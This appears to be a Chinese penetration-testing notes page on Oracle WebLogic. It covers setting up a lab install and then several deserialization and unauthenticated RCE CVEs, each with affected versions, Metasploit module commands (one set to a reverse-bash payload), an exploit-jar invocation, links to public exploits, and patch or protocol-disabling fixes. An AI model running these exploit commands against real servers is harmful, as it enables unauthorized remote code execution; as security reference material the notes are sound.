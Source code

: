 ```yaml
---
title: Weblogic
---
```


## WebLogic简介

WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件；

WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器

**安装WebLogic环境**

1、下载所需版本

https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html

2、解压出来，打开`install.cmd`脚本（一路下一步）

3、设置口令

口令必须至少包含数字字符，且至少包含一个数字或一个特殊字符

4、勾选管理服务器，点击创建

5、双击`startweblogic.cmd`启动服务

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\bin\startweblogic.cmd
```

6、访问控制台

```http
http://ip:7001/console
```

7、部署网站

点击–>部署–>安装–>上载文件–>部署档案：选择网站文件xxx.war–>下一步–>下一步–>完成

## [CVE-2019-2725]-wls反序列化

**漏洞概述**

WebLogic wls9-async反序列化远程命令执行漏洞

攻击者利用该漏洞，可在未授权的情况下远程执行命令

```http
#影响范围
Coherence 3.7.1.17
Coherence & Weblogic 12.1.3.0.0
Coherence & Weblogic 12.2.1.3.0
Coherence & Weblogic 12.2.1.4.0
```

**漏洞利用**

```bash
use multi/misc/weblogic_deserialize_asyncresponseservice
set payload cmd/unix/reverse_bash	#target->unix,这个payload实测成功
```

这个模块也适用于Weblogic XMLdecoder反序列化漏洞 (CVE-2017-10271)

## [CVE-2020-2555]-T3反序列化

**漏洞概述**

WebLogic T3协议反序列化远程命令执行漏洞

Oracle Fusion中间件Oracle Coherence存在缺陷，攻击者可利用该漏洞在未经授权下通过构造T3协议请求

获取Weblogic服务器权限，执行任意命令

```http
#影响范围*
12.1.3.0.0
12.2.1.3.0
12.2.1.4.0
```

**漏洞利用**

```bash
use exploit/multi/misc/weblogic_deserialize_badattrval
```

**修复建议**

1、直接升级weblogic到最新版本或安装升级补丁

2、如果不依赖T3协议进行JVM通信，禁用T3协议

进入WebLogic控制台，在base_domain配置页面中，进入安全选项卡页面，点击筛选器，配置筛选器

在连接筛选器中输入：`weblogic.security.net.ConnectionFilterImpl`

在连接筛选器规则框中输入 `7001 deny t3 t3s` 保存生效（需重启）

## [CVE-2020-2551]-IIOP反序列化

**漏洞概述**

攻击者通过IIOP协议远程访问WebLogic Server服务器上的远程接口；

传入恶意数据，从而获取服务器权限并在未授权情况下远程执行任意代码

```http
#影响版本
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
```

**漏洞验证**

网上暂无可稳定利用的EXP（部分无法利用），可尝试

https://github.com/Y4er/CVE-2020-2551

**漏洞分析**

https://www.anquanke.com/post/id/197605

https://www.anquanke.com/post/id/206494

**修复建议**

1、补丁升级：登陆https://support.oracle.com后，下载最新补丁
2、临时规避措施：通过禁用IIOP协议对漏洞进行缓解

## [CVE-2020-2883]-T3反序列化

**漏洞概述**

该漏洞是2555补丁的绕过

```http
#影响版本
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
```

**漏洞利用**

```bash
use multi/misc/weblogic_deserialize_badattr_extcomp
```

**修复建议**

1、升级补丁：登陆https://support.oracle.com后，下载最新补丁
2、临时规避措施：通过禁用T3协议对漏洞进行缓解

## [CVE-2020-14644]-远程命令执行

**漏洞概述**

```http
#影响版本
12.2.1.3.0
12.2.1.4.0
14.1.1.0.0
```

**漏洞利用**

下载EXP：https://github.com/potats0/cve_2020_14644/releases/tag/0.0.2

```bash
java -jar cve-2020-14644.jar 127.0.0.1 7001 whoami
```

**漏洞分析**

https://www.cnblogs.com/potatsoSec/p/13451993.html

## [CVE-2020-14882]-未授权命令执行

**漏洞概述**

```http
#影响版本 （有console控制台存在的）
10.3.6.0.0
12.1.3.0.0
12.2.1.3.0
12.2.1.4.0
14.1.1.0.0
```

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码

**漏洞利用**

```bash
use exploit/multi/http/weblogic_admin_handle_rce
```

**修复建议**

配置 WebLogic 禁用 Console 控制台